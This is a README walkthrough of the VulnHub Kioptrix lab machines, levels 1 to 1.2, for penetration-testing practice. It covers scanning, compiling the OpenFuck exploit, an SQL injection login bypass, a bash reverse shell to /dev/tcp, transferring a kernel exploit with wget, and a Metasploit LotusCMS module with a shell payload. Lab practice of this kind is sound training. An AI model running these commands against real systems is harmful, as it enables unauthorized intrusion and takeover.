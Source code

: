 # kioptrix-full-walkthrough
It's a pretty much famous one to get started with and can be easily found in here: https://www.vulnhub.com/. In my opinion, this is a very well made box to have a good enough knowledge about penetration testing with learning most of the basic tools we'll need to operate in a daily basis. Hope I could match your understanding with the writeup! Here's to solving many more!

<h1>Kioptrix Level 1</h1>

Step 1:
Downloading machine and setting up.

Step 2:
Run netdiscover to learn the machine IP.

`sudo netdiscover -i eth0`

![image](https://user-images.githubusercontent.com/31168741/199799872-1a04ded4-b40c-4cae-b085-f970aee67bd2.png)

Note: Found out by the mac address.

Step 3:
Run nmap scan on the machine IP that we found.

`sudo nmap -sS -A -p- [machine-ip] -T4`

![image](https://user-images.githubusercontent.com/31168741/199800031-894a8f69-a2f0-4585-8d1f-84a3fceba8c4.png)
![image](https://user-images.githubusercontent.com/31168741/199800056-715a15f8-f636-40f8-801f-0a477a7fef28.png)
nmap result as found above!

Step 4:
Running some other tools to enumerate as much information as possible from the machine.

`enum4linux [machine-ip]`

`dirsearch -u http://[machine-ip]`

Step 5:
Now we browse for available exploits.

As shown in the output, the target system is using a very outdated Apache web server version 1.3.20. We Google for **“apache 1.3.20 vulnerability”**.

Search for the exploit via searchsploit:

`searchsploit OpenFuck`

![image](https://user-images.githubusercontent.com/31168741/199801410-e466b70b-3dce-477a-8ceb-eea0ec90c4aa.png)

## Modify the exploit code:

Simply make a copy of the <b>764.c</b> exploit and put it somewhere to check it out and make changes to it (because the ‘off-the-shell’ code over there is pretty outdated)

`cp /usr/share/exploitdb/exploits/unix/remote/764.c OpenFuck.c`

Here, we need to make some modification to the code before compiling it. Can be done using any text editor such as nano or vim.

`vim OpenFuck.c`

Below are the list of changes which are needed to be made to the <b>OpenFuck.c</b> code,

**Include the openssl rc4 and md5 libraries:**

>#include <openssl/rc4.h>

>#include <openssl/md5.h>

Modify the <b>‘wget’</b> method in the exploit itself because the url does not exist anymore. we need to update it to become the new URL to download the file.
Search for <b>‘wget’</b> in the exploit, and then replace the URL to <b>http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c</b>

**Install Libraries for compiling the modified exploit code:**

> apt-get install libssl-dev

> gcc -o OpenFuck OpenFuck.c -lcrypto

Running the exploit,

`./OpenFuck 0x6b <i><b>[machine-ip]</b></i> 443 -c 40`

![image](https://user-images.githubusercontent.com/31168741/199802750-a1c211c4-c945-4549-bc19-98446b53831b.png)

It worked!

<h1>Kioptrix Level 1.1(2)</h1>

Step 1:
Follow Step 1 & Step 2 from previous one as described to set the machine up and discovering machine IP.

Step 2:
Run nmap scan on the machine IP that we found.

`sudo nmap -sS -A -p- [machine-ip] -T4`

![image](https://user-images.githubusercontent.com/31168741/199806144-1718d44e-5564-429a-8f5e-58d748009ca2.png)

Step 3:
Let’s take a deeper dive by inspecting what lies in the open port i.e. ***[machine-ip]***:80

**N.B.** I reinstalled the machine, ts why the ip changed.

![image](https://user-images.githubusercontent.com/31168741/199806234-c60c90b3-8521-469f-99b3-da5d9e2a0486.png)

Whoa! A login form. From the nmap scan, we notice the web application is using unauthorized mysql. This is vulnerable to SQLi. It turns out the authentication can be bypassed by using the following payload in the username field:

![image](https://user-images.githubusercontent.com/31168741/199806285-5834b923-b39b-4cb1-b2cf-9411302889bf.png)

But we need a shell to operate more flexibly.

![image](https://user-images.githubusercontent.com/31168741/199806351-02b40ddb-6bdf-40a1-a4ee-c683b919f39d.png)

![image](https://user-images.githubusercontent.com/31168741/199806383-709bfcfa-928e-49b6-b1fc-032eacd73d21.png)

So, we setup a listener and using a BASH reverse shell to connect to the listener; putting the script below inside the console that we just took privilege:

`bash -i >& /dev/tcp/<i><b>[host-ip]</b></i>/1234 0>&1` (host machine)

![image](https://user-images.githubusercontent.com/31168741/199806457-c234670e-b98c-4e34-a371-d713d3d11328.png)

We are into the shell! We look around for more info.

![image](https://user-images.githubusercontent.com/31168741/199806517-f0a4fc1d-17db-4f9d-b62d-46e0f8d2f0a6.png)

![image](https://user-images.githubusercontent.com/31168741/199806565-fba7cafa-d421-4b98-9f6f-fffa2ffb736a.png)

Step 4:
Looking out for available exploits regarding the version privilege escalation.

![image](https://user-images.githubusercontent.com/31168741/199806647-16bb2db6-10e1-43ec-8ed1-1d9c67b52842.png)

We find one and download the exploit.

![image](https://user-images.githubusercontent.com/31168741/199806720-0134067b-2762-48ca-b830-ee4d28153eb8.png)

Step 5:
Running a python server in the host machine so that we can copy the exploit to the target machine.

![image](https://user-images.githubusercontent.com/31168741/199806805-4fb64c04-ee75-4a27-a721-e9ef97397e13.png)

Transferring the exploit to the target machine using the Python web server and wget:

![image](https://user-images.githubusercontent.com/31168741/199806868-7bcfbb84-a83c-41ad-9573-34c9027566ce.png)

It’s copied. (We are downloading basically!)

Step 6:
Compiling the exploit using GCC, allocating execute permissions to it and executing it:

![image](https://user-images.githubusercontent.com/31168741/199806960-7773eaf1-1689-47b7-859b-95f29d6f672e.png)

Now we are in the root!

<h1>Kioptrix Level 1.2(3)</h1>

Step 1:
Follow Step 1 & Step 2 from previous one as described to set the machine up and discovering machine IP.

Step 2:
Before we move any further, we better add the domain/ip in ***/etc/hosts*** file in case, we can't reach the requested page.

![image](https://user-images.githubusercontent.com/31168741/199953402-8d1b9972-159e-4dac-8c3e-7e064a29f61f.png)
![image](https://user-images.githubusercontent.com/31168741/199953427-1d9eda09-61e0-40ed-8ce9-da02fd13b5c0.png)

Step 3:
Run nmap scan on the machine IP that we found.

`sudo nmap -sS -A -p- [machine-ip] -T4`

![image](https://user-images.githubusercontent.com/31168741/199953516-281d5a6a-8555-4b3b-b94f-af3abcd363bd.png)

Step 5:
Running some other tools to enumerate as much information as possible from the machine.

`dirsearch -u http://[machine-ip]`

![image](https://user-images.githubusercontent.com/31168741/199953683-e4ceae80-caa4-4c6a-abf8-0d96fd478bdf.png)

`nikto -h [machine-ip]`

![image](https://user-images.githubusercontent.com/31168741/199953794-9606b92d-cc20-418a-bcbb-48a46a144cdc.png)

Step 6:
Just as before, let’s take a deeper dive by inspecting what lies in the open port i.e. ***[machine-ip]***:80

![image](https://user-images.githubusercontent.com/31168741/199954089-d3bd781b-5f7e-40d7-94aa-8b6c282e9511.png)

So, a home page!

![image](https://user-images.githubusercontent.com/31168741/199954135-1682ec5b-2cc0-40f9-a9b8-082947f98887.png)

Then, a login form. Interesting!

![image](https://user-images.githubusercontent.com/31168741/199954281-f0aa41bb-c4ff-4168-a6a0-cb6a3955fcf1.png)

We could always try the step above if something lies there, will show up! Seems the effort didn't go in vain at all.

Step 7: Exploitation

`searchsploit lotuscms`

![image](https://user-images.githubusercontent.com/31168741/199954445-0f392e2b-26e6-42ee-b86b-e0861af6de3e.png)

***Setting up the options:***

>msfconsole
>search lotuscms
>use exploit/multi/http/lcms_php_exec
>show options
>set RHOSTS 192.168.100.80
>set LHOST 192.168.100.164
>set PAYLOAD generic/shell_bind_tcp
>set URI /
>exploit
